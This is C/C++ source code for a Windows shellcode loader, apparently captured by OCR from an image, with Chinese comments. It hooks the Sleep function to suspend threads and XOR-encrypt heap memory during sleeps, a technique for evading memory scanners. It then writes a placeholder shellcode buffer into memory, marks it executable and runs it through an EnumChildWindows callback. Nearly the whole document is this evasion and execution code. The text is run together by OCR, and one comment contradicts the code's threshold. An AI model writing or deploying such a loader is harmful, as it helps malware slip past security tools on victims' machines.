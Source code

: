    
    
    #include <stdio.h>#include <windows.h> #include <lm.h>#include <tlhelp32.h>#include "MinHook.h"#if defined _M_X64#pragma comment(lib, "C:\\Users\\Admin\\Desktop\\bin\\libMinHook.x64.lib")#elif defined _M_IX86#pragma comment(lib, "C:\\Users\\Admin\\Desktop\\bin\\libMinHook.x86.lib")#endifvoid PendingThread(DWORD processid, DWORD Id){    HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);    if (h != INVALID_HANDLE_VALUE)    {        THREADENTRY32 th;        th.dwSize = sizeof(th);        if (Thread32First(h, &th))        {            do            {                if (th.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(th.th32OwnerProcessID))                {                    if (th.th32ThreadID != Id && th.th32OwnerProcessID == processid)                    {                        HANDLE thread = OpenThread(THREAD_ALL_ACCESS, FALSE, th.th32ThreadID);                        if (thread != NULL)                        {                            SuspendThread(thread);                            CloseHandle(thread);                        }                    }                }                th.dwSize = sizeof(th);            } while (Thread32Next(h, &th));        }        CloseHandle(h);    }}void RestoreThreads(DWORD processid, DWORD Id){    HANDLE h = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);    if (h != INVALID_HANDLE_VALUE)    {        THREADENTRY32 th;        th.dwSize = sizeof(th);        if (Thread32First(h, &th))        {            do            {                if (th.dwSize >= FIELD_OFFSET(THREADENTRY32, th32OwnerProcessID) + sizeof(th.th32OwnerProcessID))                {                    if (th.th32ThreadID != Id && th.th32OwnerProcessID == processid)                    {                        HANDLE thread = ::OpenThread(THREAD_ALL_ACCESS, FALSE, th.th32ThreadID);                        if (thread != NULL)                        {                            ResumeThread(thread);                            CloseHandle(thread);                        }                    }                }                th.dwSize = sizeof(th);            } while (Thread32Next(h, &th));        }        CloseHandle(h);    }}void xor_bidirectional_encode(IN PBYTE pShellcode, IN SIZE_T sShellcodeSize, IN PBYTE bKey, IN SIZE_T sKeySize) {    for (size_t i = 0, j = 0; i < sShellcodeSize; i++, j++) {        if (j > sKeySize) {            j = 0;        }        pShellcode[i] = pShellcode[i] ^ bKey[j % 8] + 1;  
      
        }}const char key[] = "DWADWADWAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASADSADSADSADAS";size_t keySize = sizeof(key);  
    PROCESS_HEAP_ENTRY entry;void Stackencryption() {    SecureZeroMemory(&entry, sizeof(entry));    while (HeapWalk(GetProcessHeap(), &entry)) {        if ((entry.wFlags & PROCESS_HEAP_ENTRY_BUSY) != 0) {            xor_bidirectional_encode((PBYTE)(entry.lpData), entry.cbData, (PBYTE)key, keySize);        }    }}  
    void(WINAPI* SleepTest)(DWORD dwMiliseconds);//Hook Sleep函数void WINAPI HookedSleep(DWORD dwMiliseconds) {    DWORD time = dwMiliseconds;    if (time > 3000) { //如果时间大于1秒的话        //首先挂起线程        PendingThread(GetCurrentProcessId(), GetCurrentThreadId());        //加密        Stackencryption();                SleepTest(dwMiliseconds);        //进行解密        Stackencryption();        //然后恢复挂起的线程        RestoreThreads(GetCurrentProcessId(), GetCurrentThreadId());    }    else {        SleepTest(time);    }}template <typename T>inline MH_STATUS MH_CreateHookEx(LPVOID pTarget, LPVOID pDetour, T** ppOriginal){    return MH_CreateHook(pTarget, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));}  
    template <typename T>inline MH_STATUS MH_CreateHookApiEx(    LPCWSTR pszModule, LPCSTR pszProcName, LPVOID pDetour, T** ppOriginal){    return MH_CreateHookApi(        pszModule, pszProcName, pDetour, reinterpret_cast<LPVOID*>(ppOriginal));}BOOL HookTest() {    if (MH_Initialize() != MH_OK)    {        return 1;    }  
        if (MH_CreateHookApiEx(        L"kernel32.dll", "Sleep", &HookedSleep, &SleepTest) != MH_OK)    {        return 1;    }  
        if (MH_EnableHook(MH_ALL_HOOKS) != MH_OK)    {        return 1;    }}int main(){  HookTest();  unsigned char dll[263168] = {shellcode}  SIZE_T size = sizeof(dll);  SIZE_T bytesWritten = 0;  DWORD oldProtect = 0;  void* sh = VirtualAllocEx(GetCurrentProcess(), 0, (SIZE_T)size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);  WriteProcessMemory(GetCurrentProcess(), sh, dll, size, &bytesWritten);  VirtualProtectEx(GetCurrentProcess(), sh, size, PAGE_EXECUTE_READ, &oldProtect);  EnumChildWindows(NULL, (WNDENUMPROC)sh, NULL);  
    }
